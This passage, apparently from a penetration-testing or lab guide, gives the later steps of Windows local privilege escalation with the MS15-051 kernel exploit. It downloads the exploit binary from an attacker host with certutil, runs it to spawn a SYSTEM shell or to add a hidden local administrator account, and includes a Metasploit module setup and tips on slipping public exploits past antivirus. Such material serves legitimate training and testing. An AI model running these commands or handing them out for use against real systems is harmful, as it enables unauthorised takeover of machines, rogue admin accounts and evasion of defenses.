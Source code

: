 6) Select a known-stable kernel LPE exploit for the target (example: MS15-051)
- Transfer the exploit binary (example filename placeholder):
```
certutil -urlcache -f http://10.10.14.2:8000/MS15-051x64.exe MS15-051.exe
```

7) Execute exploit
Many Windows local EoP PoCs accept a command to run as SYSTEM. Two common patterns:
- Spawn a SYSTEM cmd:
```
MS15-051.exe "cmd.exe"
```
- Run an administrative action (add a local admin user), then get a shell:
```
MS15-051.exe "cmd.exe /c net user jack P@ssw0rd! /add && net localgroup administrators jack /add"
```
If the exploit’s usage differs, run its help or try passing just “cmd.exe”. Adjust to the specific PoC’s syntax.

8) Verify escalation and context
From the new shell or after the command runs:
```
whoami
whoami /all
```
You want: NT AUTHORITY\SYSTEM.

9) Cleanup (lab hygiene)
```
del C:\Users\Public\MS15-051.exe
del C:\Users\Public\Watson.exe
```

Optional: Metasploit approach (if you already have a Meterpreter session)
- Example module (depends on target/build):
```
msfconsole
use exploit/windows/local/ms15_051_client_copy_image
set SESSION 1
set LHOST 10.10.14.2
set LPORT 4444
run
```
Verify gets SYSTEM, then interact with the new session.

## Practical tips
- Prefer safer privesc first: misconfigs, weak services, token impersonation. Kernel exploits are last resort due to BSOD risk.
- Match exactly: OS name, SP, build number, architecture, and missing hotfixes. A mismatched kernel exploit can crash the box.
- Use known-stable CVEs for the target’s build. WES-NG/Sherlock/Watson help you shortlist.
- AV/EDR may flag public PoCs. Renaming binaries, alternate download methods, or compiling yourself can help in labs.
- PowerShell execution policy bypass is runtime-only; it doesn’t permanently change system policy.
- If systeminfo is blocked, pull from registry and wmic os. You can also parse wuauserv logs or qfe as a fallback.
- Test in a lab VM matching target OS when possible to validate exploit stability before running on the real target.
- Don’t run kernel exploits on Domain Controllers or critical servers in real environments.
